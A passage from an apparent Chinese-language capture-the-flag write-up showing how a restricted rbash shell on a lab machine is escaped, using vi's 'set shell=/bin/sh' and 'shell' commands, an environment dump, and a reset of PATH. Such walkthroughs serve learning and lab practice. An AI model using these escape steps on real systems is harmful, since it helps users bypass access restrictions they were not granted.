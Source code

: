   
FTP,GDB,main,git没有，发现vi可以用，那就试试被

```
vi test
set shell=/bin/sh
shell
```

![upload successful](https://lnng.top/images/pasted-138.png)

**upload successful**

![upload successful](https://lnng.top/images/pasted-139.png)

**upload successful**

![upload successful](https://lnng.top/images/pasted-140.png)

**upload successful**

更改PATH或SHELL环境变量

```
查看
export -p
```

```
export HOME='/home/tom'                                                                                                           
export LANG='en_US.UTF-8'                                                                                                         
export LOGNAME='tom'                                                                                                              
export MAIL='/var/mail/tom'                                                                                                       
export PATH='/home/tom/usr/bin'                                                                                                   
export PWD='/home/tom'
export SHELL='/bin/rbash'
export SHLVL='1'
export SSH_CLIENT='192.168.124.139 51336 7744'
export SSH_CONNECTION='192.168.124.139 51336 192.168.124.146 7744'
export SSH_TTY='/dev/pts/1'
export TERM='xterm-256color'
export USER='tom'
export VIM='/usr/share/vim'
export VIMRUNTIME='/usr/share/vim/vim74'
export _='whoami'
```

修改path

```
export PATH="/usr/sbin:/usr/bin:/rbin:/bin"
```
